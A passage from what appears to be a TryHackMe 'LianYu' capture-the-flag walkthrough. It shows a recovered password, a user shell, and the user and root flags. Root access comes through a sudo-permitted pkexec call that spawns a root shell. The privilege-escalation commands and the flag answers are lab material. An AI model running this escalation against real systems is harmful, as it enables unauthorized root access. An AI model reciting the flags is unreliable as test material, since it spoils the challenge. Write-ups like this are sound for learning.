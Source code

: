 <pre><code>~# cat shado
M3tahuman
</code></pre>

<br>

> 1.6. <em>user.txt</em><br><a id='7'></a>
>> <code><strong>THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}</strong></code>

<br>

![image](https://github.com/user-attachments/assets/b3a27219-99f7-4a7e-a547-21aad2855cf8)

<pre><code>slade@LianYu:~$ id
uid=1000(slade) gid=1000(slade) groups=1000(slade),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth)
slade@LianYu:~$ pwd
/home/slade
slade@LianYu:~$ ls
user.txt
slade@LianYu:~$ cat user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak

slade@LianYu:~$ 
</code></pre>

<br>

> 1.7. <em>root.txt</em><br><a id='8'></a>
>> <code><strong>THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}</strong></code>

<pre><code>slade@LianYu:~$ sudo -l
[sudo] password for slade: 
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$  
</code></pre>

<pre><code>slade@LianYu:~$ sudo pkexec /bin/sh
# whoami
root
# pwd
/root
# ls
root.txt
# cat root.txt
                          Mission accomplished
